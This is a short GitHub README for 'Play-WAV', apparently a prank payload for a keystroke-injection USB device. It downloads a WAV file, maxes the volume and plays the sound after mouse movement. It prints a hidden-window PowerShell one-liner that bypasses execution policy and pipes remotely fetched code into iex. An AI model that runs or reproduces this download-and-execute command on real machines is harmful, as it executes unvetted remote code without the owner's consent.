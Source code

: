 ##

<!-- TABLE OF CONTENTS -->
<!--TABLE 0F C0NTENTS-->

# Play-WAV

A script used to download a WAV file and play it after a mouse movement is detected.

## Description

This program starts off by using an Invoke-WebRequest to download a WAV file. 
The system volume is then turned up to the max level. 
Then the script will be paused until a mouse movement is detected. 
After a mouse movement is detected, the WAV file will be played.

## Getting Started

### Dependencies

* Windows 10,11

##

### Executing program

* Place the WAV URL in the $wav variable
* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download your WAV file
 
```
powershell -w h -NoP -NonI -Ep Bypass $wav='';irm https://MYDOMAIN.HERE/vus | iex
```

##

## Contributing

All contributors names will be listed here

M3!

##

## Version History

* 0.1
    * Initial Release

##

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/M3?sub_confirmation=1">
        <img src=https://github.com/MY-GITHUB/URL/PATH/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/twitter.com/github.com/M3!">
        <img src=https://github.com/MY-GITHUB/URL/PATH/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/twitter.com/github.com/M3!/">
        <img src=https://github.com/MY-GITHUB/URL/PATH/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/MY-GITHUB/URL/PATH/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
    <td align="center" width="96">
      <a href="https://www.tiktok.com/@M3!?lang=en">
        <img src=https://github.com/MY-GITHUB/URL/PATH/raw/main/img/tiktok.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>TikTok
    </td>    
  </tr>
</table>
</div>



##

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)


##
